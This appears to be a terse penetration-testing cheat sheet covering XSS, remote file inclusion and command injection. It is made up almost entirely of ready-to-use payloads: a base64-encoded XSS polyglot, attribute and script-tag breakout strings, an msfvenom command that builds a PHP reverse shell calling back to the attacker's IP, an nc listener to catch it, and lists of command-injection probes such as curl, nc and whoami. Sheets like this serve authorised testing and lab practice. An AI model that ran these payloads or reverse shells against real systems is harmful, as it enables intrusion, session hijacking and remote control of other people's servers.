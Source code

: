 # XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`
#### Reflected XSS into attribute with angle brackets HTML-encoded

`"onmouseover="alert(1)`

#### Reflected DOM XSS

`\"-alert(1)}//`

#### Reflected XSS into HTML context with most tags and attributes blocked

`<$tag$ $attribute> Using Burp Suite Intruder`

#### Reflected XSS into a JavaScript string with single quote and backslash escaped

`</script><script>alert(1)</script>`

# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection. Or you can use `Burp Suite Intruder` with this [payload](https://github.com/payloadbox/command-injection-payload-list).
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`
